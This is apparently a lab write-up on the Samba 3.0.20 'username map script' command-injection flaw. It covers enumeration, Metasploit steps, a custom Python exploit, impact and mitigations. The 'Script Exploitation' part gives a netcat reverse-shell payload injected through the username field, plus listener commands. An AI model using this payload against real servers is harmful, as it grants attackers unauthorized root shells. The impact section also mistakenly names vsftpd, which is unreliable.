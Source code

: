 # smbd 3.X - 4.X

## Introduction

- The samba daemon provides the Active Directory services and file and print services to SMB clients. The smbd daemon provides the file and print services to SMB clients.
- Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an older transport layer that allows Windows computers to talk to each other on the same network.
- Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack.

## Enumeration

- We can list the shared directories using-
	- `smbclient -L //IP -U%`
		- -L: Lists the shares
		- -U%: Avoid asking for password

![enumeration results](../../images/smbd_3.X-4.X_enum.jpeg)

- As we can see that there are a lot of shared directories here, most of which are generated by the system and is not meant to be accessed ([Read more here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/remove-administrative-shares#introduction))
- But we can access the `tmp` share using:
	- `smbclient //IP/tmp -U%`, syntax of this command is pretty straightforward.
- And now, we can run commands on the server.

![tmp share files](../../images/smbd_3.X-4.X_tmp.jpeg)

- However, this share does not reveal any useful information.

## Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution

- Searching more about the version of smbd, I found that it is vulnerable to `Command Execution` if the username map script option is enabled in `smb.conf` file (smbd configuration file).
	- Samba's username map feature allows the mapping of usernames from client requests to different usernames on the server.This can be particularly useful in environments where users have different usernames on different systems.
	- For example, a user might have one username on a Windows client and a different username on a Unix or Linux server running Samba. The username map feature enables these users to access resources on the Samba server without needing to maintain identical usernames across systems.
	- The username map script option in Samba is used to specify a script that Samba will call to determine the mapping of a username.
	- This option provides a dynamic way to map usernames by running an external script, which can be more flexible than static mappings defined in a username map file.
	- The way this works is that when a user attempts to authenticate, Samba calls the specified script with the username as an argument. The script then returns the mapped username that Samba should use for that session. 
- Samba versions 3.0.20 through 3.0.25rc3 allows a command execution vulnerability when using the non-default `username map script` configuration option. By specifying a `username containing shell meta characters`, attackers can execute arbitrary commands. 
- No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication.

### Proof of Concept

- This vulnerability can be exploited either through Metasploit's `exploit/multi/samba/usermap_script` exploit or a manually crafted script.
- Since this exploit requires using `shell meta characters`, it is difficult (though not impossible) to exploit it manually using tools like `smbclient` through a shell.

- Metasploit Exploitation
	- Start metasploit using:
		- `msfconsole`
	- Using the exploit/multi/samba/usermap_script exploit:
		- `use exploit/multi/samba/usermap_script`
	- Viewing the required options for exploitation:
		- `show options`

	![metasploit options](../../images/smbd_3.X-4.X_metasploit_1.jpeg)

	- The only 2 required options is `RHOSTS` which is the target IP.
		- `set RHOSTS IP_ADDRESS`
	- Run the exploit using:
		- `exploit` or `run`

	![metasploit options](../../images/smbd_3.X-4.X_metasploit_1.jpeg)

	- As we can see, we got a shell as root and we are able to run commands.

- Script Exploitation
	- I manually created a ([python script](./scripts/exploit.py)) to spawn a shell. Here is how it works
		- Reverse Listener: This scripts assumes that the attacker is already listening on the supplied port. For eg. using `nc -lnvp 9001`
    	- Imports: The script uses the smb.SMBConnection for SMB communication and sys for accessing command-line arguments.
    	- Command-Line Arguments: Checks if the target IP and listener port are provided; if not, it prints usage instructions and exits.
    	- Variable Setup: Extracts the listener port and target IP from command-line arguments. 
    	- Payload: `\`nc -c /bin/bash 192.168.1.6 {port}\`` Constructs a payload using nc (netcat) to open a reverse shell to the attacker's machine, embedding this payload in the username variable. You can replace this payload with your own if you want. The main thing here to notice is that the payload has to be enclosed within backticks [``].
    	- SMB Connection: Attempts to establish an SMB connection with the target using the crafted username as payload. It uses port 139, commonly associated with SMB services.
    	- Exception Handling: Catches and prints any errors encountered during the attempt to connect.
    	- Cleanup: Closes the SMB connection and prints a success message, indicating the script's completion.
    - Using the exploit script
    	- Listening on port 9001 using on another terminal window
    		- `nc -lnvp 9001`
    	- Running the script
    		- `python3 exploit.py 192.168.1.6 9001`

    	![metasploit options](../../images/smbd_3.X-4.X_script.jpeg)

    - As we can see, we got a shell as root and we are able to run commands.

### Impact Analysis

- This vulnerability has Remote Code Execution [RCE] exploit and allows full access of the system as the root user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is high.

## Patches and Updates:

- The developers of smbd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

## Mitigations

- Change the default port (139) to a non-standard port to reduce the risk of automated attacks.
- Restrict access to known IP addresses or ranges through firewall rules or smbd configuration.
- Regularly update smbd server software to ensure all security patches are applied.
- Set up services as non-root user in a sandbox or isolated environment.

## Conclusion

- The samba daemon (smbd) provides file and print services to SMB clients, utilizing ports 139 and 445 for communication. Enumeration techniques, such as using smbclient, can reveal shared directories, including a vulnerable tmp share that doesn't require a password for access.
- A significant vulnerability in Samba versions 3.0.20 through 3.0.25rc3 allows for command execution via the username map script option in the smb.conf file. This vulnerability, which does not require authentication to exploit, can lead to full system access as the root user by injecting shell meta characters into the username.
- Exploitation of this vulnerability can be achieved through tools like Metasploit or manually crafted scripts, allowing attackers to gain a root shell on the affected system. The impact of this vulnerability is high due to the potential for remote code execution and system compromise.
- To mitigate this issue, it's recommended to update to the latest version of smbd, change the default samba port, limit access to known IPs, and regularly apply security patches.

## References

- https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb
- https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/samba/usermap_script
- https://www.exploit-db.com/exploits/16320
- https://github.com/v1nc3-source/Samba_3.x_4.x_exploit
